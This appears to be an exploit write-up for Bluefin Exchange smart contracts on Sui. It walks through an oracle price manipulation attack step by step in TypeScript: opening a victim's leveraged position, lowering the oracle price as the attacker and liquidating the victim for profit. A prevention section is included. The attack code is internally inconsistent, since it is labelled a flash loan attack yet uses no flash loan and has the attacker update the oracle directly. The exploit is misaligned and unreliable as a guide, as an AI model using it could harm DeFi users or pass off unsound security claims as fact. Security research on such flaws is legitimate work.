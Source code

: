 # Exploit Guide: Oracle Price Manipulation in Bluefin Exchange

## Overview
This document provides a detailed walkthrough of a critical vulnerability in the Bluefin Exchange smart contracts, accounting for existing protections:
Flash Loan Price Manipulation within Allowed Bounds

## Prerequisites
- Node.js and npm installed
- Access to Sui testnet
- Basic understanding of DeFi mechanics
- Understanding of Bluefin's price bounds and protections

## Contract Protections to Consider

### Price Manipulation Safeguards
```typescript
// Price validity checks
evaluator::verify_min_max_price(tradeChecks, price);
// Tick size verification
evaluator::verify_tick_size(tradeChecks, price);
// Market take bound checks
evaluator::verify_market_take_bound_checks(checks, tradePrice, oraclePrice, isBuy);
```

### Trade Safety Measures
```typescript
// Multiple validation layers
verify_margin_ratio(position);
verify_position_size(size);
verify_price_bounds(price);
```

## Vulnerability: Flash Loan Attack Within Bounds

### Attack Strategy
1. Calculate allowed price movement within bounds
2. Execute flash loan attack within these limits
3. Trigger liquidations while staying within protocol constraints

### Attack Steps
1. **Initial Setup**
   ```typescript
   // Setup victim's position with high leverage
   await onChain.depositToBank({
       coinID: victimCoinId,
       amount: toBigNumberStr(1000, 6)  // $1000 collateral
   }, victim);
   
   await onChain.openPosition({
       size: toBigNumberStr(10, 6),     // 10 tokens
       leverage: 5,                      // 5x leverage
       price: initialPrice
   }, victim);
   ```

2. **Price Manipulation Within Bounds**
   ```typescript
   // Calculate maximum allowed price movement
   const maxPriceMove = initialPrice * 0.20; // Example: 20% bound
   const manipulatedPrice = toBigNumberStr(
       Math.max(initialPrice - maxPriceMove, minPrice), 
       6
   );
   
   // Update price within bounds
   await onChain.updateOraclePrice({
       price: manipulatedPrice
   }, attacker);
   ```

3. **Liquidation Within Protocol Rules**
   ```typescript
   // Verify position is liquidatable under new price
   const liquidationTx = await onChain.liquidate({
       account: victim.address
   }, attacker);
   
   // Verify liquidation succeeded within bounds
   expectTxToSucceed(liquidationTx);
   ```

### Profit Calculation
- Initial Position Value: $1000
- Maximum Allowed Price Drop: 20%
- Minimum Liquidation Value: $800
- Liquidation Fee: 2.5%
- Attacker Profit: ~$20-25 per position

## Risk Analysis
- **Likelihood**: Medium
  - Requires careful calculation of bounds
  - Must operate within protocol limits
  - More complex than basic attacks

- **Impact**: High
  - Still profitable within bounds
  - Harder to detect due to valid ranges
  - Multiple victims can be targeted

## Prevention

### Existing Protections
1. Basic price bounds checking
   - `verify_min_max_price` for validity ranges
   - `verify_tick_size` for granularity control
2. Multiple validation layers
   - Position size limits
   - Margin ratio verification

### Needed Additional Protections
1. Implement TWAP oracle
   - Current price updates are instant
   - Need time-weighted average to prevent manipulation
2. Add multiple price sources
   - Currently single source of truth
   - Need multiple oracles for validation
3. Implement advanced circuit breakers
   - Current bounds are static
   - Need dynamic deviation checks
4. Add minimum timelock between updates
   - Currently no delay between updates
   - Need cooldown period
5. Enhanced price validation
   - Current checks are basic
   - Need dynamic validation based on market conditions

The existing protections provide a basic level of security but can be circumvented by sophisticated attacks that operate within the allowed bounds. The additional protections would significantly increase the difficulty and cost of exploitation.

## Test Verification
```bash
# Run specific test case
npm run test:oracle -- -g "should demonstrate flash loan price manipulation"
```

### Expected Results
```
✔ should demonstrate flash loan price manipulation
  - Position liquidated within bounds
  - All price checks pass
  - Profit extracted safely
```

## Security Considerations
- Test in isolated environment only
- Respect protocol bounds
- Monitor gas consumption
- Document all steps
- Consider legal implications

## Additional Notes
This exploit is more sophisticated than basic attacks as it requires:
1. Understanding of protocol limits
2. Precise calculation of bounds
3. Careful execution within constraints
4. Advanced MEV capabilities 